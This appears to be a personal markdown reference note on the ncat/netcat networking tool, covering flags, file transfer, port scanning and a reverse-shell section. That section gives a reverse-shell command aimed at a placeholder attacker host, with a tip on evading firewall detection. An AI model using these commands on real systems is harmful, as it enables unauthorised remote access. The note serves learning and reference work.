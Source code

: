 ```yaml
---
id: netcat
aliases:
  - netcat
  - ncat
  - nc
tags:
  - Networking/Tools/Netcat
links: "[[Netcat]]"
resources:
  - "[Ncat](https://nmap.org/ncat/)"
  - "[Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)"
  - "[ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)"
  - "[Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)"
---
```


# Netcat

`ncat` — Reimplementation of netcat maintained by the [Nmap](https://nmap.org/ncat/) team

## Usage

Synopsis

```sh
ncat [OPTIONS...] [hostname] [port]
```

<!-- Examples {{{-->
Examples

```sh
# Execute the given command after connecting
ncat -e /bin/bash localhost 8080

# Listen for incoming connections
ncat -l 8080

# Do not resolve hostnames via DNS
ncat -n localhost 8080

# Specify source port to use
ncat -p 8080 localhost 8081

# Use source IP address
ncat -s 192.168.1.5 localhost 8080

# Answer TELNET negotiation
ncat -t localhost 8080

# Use UDP instead of default TCP
ncat -u localhost 8080

# Verbose mode
ncat -v localhost 8080

# Set a timeout for idle connection
ncat -w 5 localhost 8080

# Zero-I/O mode, report connection status only
ncat -z localhost 8080

# Banner grabbing
nc -nv {target_ip} 21
```
<!-- }}} -->

<!-- File Transfer {{{-->
### File Transfer

Listen to an incoming connection on port `8080` and write any received data to
`received_file`

```sh
ncat -l 8080 > received_file
```

Connect to a server on port `8080` and send the content of `file_to_send`

```sh
ncat localhost 8080 < file_to_send
```
<!-- }}} -->

<!-- Port Scanning {{{-->
### Port Scanning

Check if the port is open and then close the connection *(ports 80-90 through
`localhost`)*

```sh
ncat -v -n -z localhost 80-90
```
<!-- }}} -->

<!-- Reverse Shell {{{-->
### Reverse Shell

Initiate a connection back to the target machine

```sh
ncat {attacker_ip} {attacker_port} -e /bin/bash
```

Listen to an incoming connection

```sh
ncat -lvnp {listening port}
```

**TIP**: *Keep the listening port below `1000` to avoid firewall detection*
<!-- }}} -->

## Resources

- [Ncat](https://nmap.org/ncat/)
- [Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)
- [ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)
- [Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
